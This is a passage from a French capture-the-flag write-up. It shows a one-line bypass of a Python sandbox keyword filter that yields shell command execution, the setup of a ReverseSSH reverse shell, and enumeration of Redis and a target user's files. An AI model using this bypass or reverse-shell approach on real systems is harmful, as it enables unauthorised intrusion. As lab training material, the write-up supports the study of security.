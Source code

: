 Ils sont valides pour la page de login et nous amènent sur un formulaire permettant d'exécuter du Python.  

Il y a deux champs de type textarea, un pour saisir le code, l'autre pour saisir l'input qui sera passé au programme.  

Bien sûr certains mots clés sont bloqués et on obtient par exemple un message si on tente d'importer un module quelconque.  

Si j'avais été plus attentif, j'aurais remarqué que le code chargé du filtrage était donné en lien mais je n'en ai pas eu besoin, le bypass étant trivial :

```python

exec("FROM OS IMPORT SYSTEM AS E".lower())
e("ls -al")

```

Confiture de cerise
-------------------

Une fois le [ReverseSSH](https://github.com/Fahrj/reverse-ssh "ReverseSSH") mis en place je peux fouiller ce qui se passe sur le système. Il y a par exemple un serveur Redis en place :

```plain
redis        188  0.3  0.9  58020  9616 ?        Ssl  20:46   0:04 /usr/bin/redis-server 127.0.0.1:6379
```

Mais il ne semble lié qu'aux captchas de la page de login :

```plain

$ redis-cli
127.0.0.1:6379> INFO keyspace
# Keyspace
db0:keys=1,expires=0,avg_ttl=0
127.0.0.1:6379> keys *
1) "captcha-table"
127.0.0.1:6379> type "captcha-table"
hash
127.0.0.1:6379> hgetall "captcha-table"
1) "36baf60cb7bdf33226062c90fb59e77445b6fb54310dd4fb366ba830e89366d1"
2) "-18"
3) "657f170ad84beffcfc63447eaefc9a6843b2c36fe4e1646e555fb6926f2da611"
4) "-96"
5) "1728f212b663b94df96288e1e43729a25ac9617a454172ca1aedc936ee44d4e2"
6) "71"
7) "0358124fb65d5709467ed31f4d5ef1b02eed454bb559f91cd8bba108dc96aba1"
8) "29"

```

En revanche il y a un utilisateur nommé *py* qui semble être notre prochaine victime :

```plain

[http@archlinux /]$ ls /home/py/ -al
total 56
dr-xr-xr-x 3 py   py    4096 Apr 16  2021 .
drwxr-xr-x 3 root root  4096 Apr  7  2021 ..
-rw------- 1 py   py      21 Dec 20  2020 .bash_logout
-rw------- 1 py   py      57 Dec 20  2020 .bash_profile
-rw------- 1 py   py     141 Dec 20  2020 .bashrc
-r-------- 1 py   py      11 Apr  9  2021 password.txt
drwx------ 2 py   py    4096 Apr  9  2021 secret_stuff
-r-sr-xr-x 1 py   py   19216 Apr  9  2021 typing
-r--r--r-- 1 py   py     689 Apr  9  2021 typing.cc
-r-------- 1 py   py      34 Apr  9  2021 user.txt
```